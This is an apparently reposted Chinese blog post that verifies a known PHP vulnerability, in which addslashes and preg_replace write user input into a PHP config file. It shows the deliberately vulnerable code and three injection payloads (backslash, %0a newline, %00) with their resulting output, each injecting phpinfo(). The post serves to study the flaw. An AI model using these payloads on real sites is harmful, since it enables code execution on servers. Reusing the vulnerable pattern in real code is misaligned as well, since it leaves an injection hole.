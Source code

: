 ```yaml
---
title: "一个PHP正则相关的“经典漏洞”"
date: 2017-02-28 16:29:56 +0800
img: /assets/images/201702/28-01.png

categories: 转载验证
tags: [php, 正则表达式, 网络安全, 转载]
---
```

1. 文件准备
    example.php 文件
    ```php
    <?php
    $str = addslashes($_GET['option']);
    $file = file_get_contents('example_test.php');
    $file = preg_replace('|\$option=\'.*\';|',"\$option='$str';", $file);
    var_dump($str, $file);
    file_put_contents('example_test.php', $file);
    ```
    ![example.php](/assets/images/201702/28-01.png)

    example_test.php 文件
    ```php
    <?php
    $option='hello';
    echo $option;
    ```
    ![example_test.php](/assets/images/201702/28-02.png)

**注入方法**

方法一: 利用反斜杠, 输入`\';phpinfo();//`

`http://example.com/example.php?option=\%27;phpinfo();//`

```php
string(17) "\\\';phpinfo();//"
string(50) "<?php

$option='\\';phpinfo();//';

echo $option;
"
```

方法二: 利用正则, 输入`aaa';phpinfo();%0a//`

`http://example.com/example.php?option=aaa%27;phpinfo();%0a//`

```php
string(19) "aaa\';phpinfo();
//"
string(53) "<?php

$option='aaa\';phpinfo();
//';

echo $option;
"
```
方法三: 利用 `%00`

1. 输入`;phpinfo();`, `http://example.com/example.php?option=;phpinfo();`

    ```php
    string(11) ";phpinfo();"
    string(45) "<?php

    $option=';phpinfo();';

    echo $option;
    "
    ```
1. 再次输入`%00`, `http://example.com/example.php?option=%00`

    ```php
    string(2) "\0"
    string(56) "<?php

    $option='$option=';phpinfo();';';

    echo $option;
    "
    ```

> 本文为验证,`原文`有解析: [https://www.cdxy.me/?p=756](https://www.cdxy.me/?p=756)

---
## 参考文档
- [一个PHP正则相关的“经典漏洞”](https://www.cdxy.me/?p=756)
